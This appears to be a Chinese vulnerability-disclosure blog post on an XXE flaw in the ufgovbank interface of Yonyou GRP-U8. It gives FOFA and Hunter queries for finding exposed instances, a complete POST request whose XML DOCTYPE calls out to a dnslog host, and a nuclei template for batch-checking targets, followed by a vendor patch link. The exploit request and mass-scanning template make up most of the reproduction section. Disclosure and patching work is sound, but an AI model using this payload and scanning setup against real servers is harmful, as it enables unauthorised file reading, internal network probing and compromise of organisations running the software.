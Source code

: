 #  【漏洞情报 | 新】用友GRP-U8 ufgovbank XXE漏洞   
原创 4Zen  划水但不摆烂   2024-01-14 19:02  
  
## 免责声明  
  
文章所涉及内容，仅供安全研究与教学之用，由于传播、利用本文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。  
## 产品简介  
  
用友GRP-U8是一款企业级的综合管理软件，主要用于财务、人力资源、供应链、生产制造等多个领域的管理与协同。它具备强大的功能模块，包括财务核算、费用管理、人力资源管理、采购管理、销售管理、库存管理等，能够满足企业不同部门和业务流程的需求。用友GRP-U8以其稳定性和灵活性著称，适用于中小型企业和大型企业的管理需求。![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagyReMVa4A2hRT6llbI9ExGrQ1MnUBdAYcCUBJ3nqqoLnPNzbqj4hKfMMYxbA0PPRUib3OU9HWdIVibg/640?wx_fmt=png&from=appmsg "")  
  
## 漏洞描述  
  
用友GRP-U8的ufgovbank接口存在XXE漏洞，攻击者可以在xml中构造恶意命令，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。  
## 影响版本  
```
用友GRP-U8R10产品官方在售及提供服务的版本为U8Manager，
产品分B、C、G三个产品系列，以上受到本次通报漏洞的影响。

```  
## 网络测绘  
  
favicon图标特征  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagyReMVa4A2hRT6llbI9ExGrw10nsibIQYmcWSsoO4QkPMAC2rDxQj8mmGU1OM6nT7ViaYOvkRibcFaYA/640?wx_fmt=png&from=appmsg "")  
  
FOFA网络测绘搜索  
```
app="用友-GRP-U8"

```  
  
鹰图网络测绘搜索  
```
app.name="用友GRP-U8 OA"

```  
## 漏洞复现  
  
准备一个dnslog平台用于回显
http://dnslog.cn/  
  
POC：  
```
POST /ufgovbank HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Connection: close
Content-Length: 153
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

reqData=<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://dnslog地址">&signData=1&userIP=1&srcFlag=1&QYJM=0&QYNC=adaptertest

```  
  
发送POC请求包如下图所示![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagyReMVa4A2hRT6llbI9ExGrOgc1URjOq9SDKUtcia7IKwYUhMXvNqsicRjxalaJb33rPnEZ0yWqH3Rw/640?wx_fmt=png&from=appmsg "")  
  
  
然后去dnslog看结果了![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagyReMVa4A2hRT6llbI9ExGrZSmU8By9LsOHlvIQV1aDqiaOZwl1cjybeXPLtunicEK28HYOEM8txtmQ/640?wx_fmt=png&from=appmsg "")  
  
  
nuclei批量验证POC模板  
```
id: YonYou-GRP-U8-ufgovbank-XXE

info:
  name: 用友GRP-U8 ufgovbank XXE漏洞
  author: 4Zen
  severity: high

requests:
  - raw:
      - |
        POST /ufgovbank HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Content-Type: application/x-www-form-urlencoded
        
        reqData=<?xml version="1.0"?>
        <!DOCTYPE foo SYSTEM "http://{{interactsh-url}}">&signData=1&userIP=1&srcFlag=1&QYJM=0&QYNC=adaptertest

    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, "dns")
        condition: and

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagyReMVa4A2hRT6llbI9ExGrqtd2Gwsvh8uuyZVaenlKGibnLRMFukna8svT6yo385VSV7ouEibj6o3g/640?wx_fmt=png&from=appmsg "")  
## 修复方案  
  
用友安全中心在2024年1月2日已发布相关补丁，请及时更新修复补丁。  
```
https://security.yonyou.com/#/patchInfo?identifier=f234175cba534454adbe1caf9dc2fc88

```  
  
  
  
